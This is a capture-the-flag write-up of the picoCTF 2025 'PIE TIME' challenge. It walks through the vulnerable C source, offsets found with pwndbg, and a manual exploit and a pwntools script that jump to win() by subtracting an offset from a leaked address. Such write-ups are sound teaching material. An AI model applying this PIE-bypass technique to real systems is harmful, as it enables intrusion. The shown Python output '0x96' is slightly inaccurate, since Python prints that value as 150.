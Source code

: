 ```yaml
---
title: PIE TIME
parent: Easy
grand_parent: Pwn
great_grand_parent: PicoCTF
nav_order: 3
---
```


# PIE TIME - PicoCTF 2025

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** PIE, Offset Calculation, pwntools, pwndbg

---

## Challenge Description

> Can you try to get the flag? Beware we have PIE!
>
> Files provided:
> - `vuln` (binary)
> - `vuln.c` (source code)
> - Remote instance: `nc rescued-float.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   Can you figure out what changed between the address you found locally and in the server output?
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- PIE (Position Independent Executable) is enabled

> PIE, or Position Independent Executable, randomizes the base address of the binary at runtime, meaning absolute addresses change every run. This prevents us from hardcoding the address of win(). However, offsets between functions remain constant because they are relative to the PIE base.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

### Key Observations

- The program directly prints the address of `main()` at runtime
- The program allows arbitrary function pointer execution by letting us input any address to call
- PIE randomizes base addresses, but internal offsets remain constant
- The `win()` function reads and prints the flag if executed

---

## Static Binary Analysis

We analyze the binary with pwndbg to find the static offset between main() and win():

```sh
$ pwndbg ./vuln           
[snip...]
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
[snip...]
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
[snip...]
```

### Offset Calculation

```
$ python3
>>> main_addr = 0x133d  
>>> win_addr  = 0x12a7  
>>> offset = main_addr - win_addr
>>> print(offset)
0x96
```

**The key realization is that this offset remains fixed regardless of PIE randomization.**

---

## Exploitation

### Plan

1. Leak the runtime address of main() (given).
2. Subtract 0x96 to calculate the runtime address of win().
3. Input this address and trigger execution

### Manual Exploitation

```
$ nc rescued-float.picoctf.net <port>

Address of main: 0x613514f6433d
Enter the address to jump to, ex => 0x12345: 0x613514f642a7
Your input: 613514f642a7
You won!
picoCTF{<redacted>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'rescued-float.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# Parse leaked address of main
leak_line = conn.recvline().decode().strip()
main_addr = int(leak_line.split(": ")[1], 16)

# Offset from static analysis
offset = 0x96
win_addr = main_addr - offset

# Send calculated win address
conn.sendline(hex(win_addr))

# Receive flag
conn.recvuntil(b"You won!\n")
print(conn.recvall().decode())
```

---

## Key Takeaways
- PIE randomizes binary base addresses but not relative offsets
- Leaking function addresses enables reliable exploitation via offset calculation
- pwndbg are essential tools for static binary analysis
